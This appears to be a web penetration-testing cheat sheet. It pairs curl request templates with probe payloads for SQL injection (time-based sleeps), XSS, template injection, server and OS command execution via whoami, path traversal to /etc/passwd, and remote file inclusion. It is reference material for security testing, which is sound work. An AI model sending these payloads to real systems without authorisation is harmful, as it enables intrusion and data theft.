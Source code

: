 # APIs and Fields

## Simulating Requests

#### GET

```
curl <url>
```

#### HEAD

```
curl -I <url>
```

#### GET - Params

```
curl <url>?field=value&field2=value2
```

#### GET - Follow Redirect

```
curl -L <url>
```

#### GET - Custom Headers

```
curl <url> -H "header1: value" -H "header2: value"
```

#### GET - Custom Cookies

```
curl -b "name1=value1; name2=value2" <url>
```

#### POST - Form Data

```
curl -X POST <url>
   -H "Content-Type: application/x-www-form-urlencoded" 
   -d "key1=value1&key2=value2" 
```

#### POST - JSON

```
curl -X POST <url>
    -H 'Content-Type: application/json'
    -d '{"field1":"value1","field2":"value2"}'
```

#### POST - Send File

```
curl -X POST <url> -d @<path to file>
```

#### POST - Base Auth

```
curl -X POST <url> --user "<user>:<password>"
curl -X POST <url> -H "Authorization: Basic $(echo -n "<user>:<pass>" | base64)"
curl -X POST <url> -H "Authorization: Bearer <token>" 
```

## Testing parameters

#### SQL Injection

```
''""``) or 'a' = 1;

sleep(5)#
or sleep(5)#
;waitfor delay '0:0:5'--
" or pg_sleep(5)--
```

#### XSS

```
<script>alert(document.domain)</script>
<img src=1 href=1 onerror="javascript:alert(document.domain)"></img>

`"'><img src=1 href=1 onerror="javascript:alert(document.domain)"></img>
/><img src=1 href=1 onerror="javascript:alert(document.domain)"></img>
```

#### Template Injection

```
4*4
{{4*4}}
${4*4}
{4*4}
<%= 4*4 %>
```

Code Execution - Server

```
os.system('<cmd>')
T(java.lang.Runtime).getRuntime().exec("<cmd>");

echo exec("<cmd>");
echo `<cmd>`;

<!--#exec cmd="<cmd>" --> 
```

Code Execution - Machine

```
whoami
$(whoami)
;whoami
||whoami
&&whoami
```

#### Local File Inclusion

```
../../../../../../../../../etc/passwd
..\..\..\..\..\..\..\..\..\Windows\system.ini
..\..\..\..\..\..\..\..\..\boot.ini
```

#### Remote File Inclusion

```
http://www.google.com
http://<controlled ip>
```

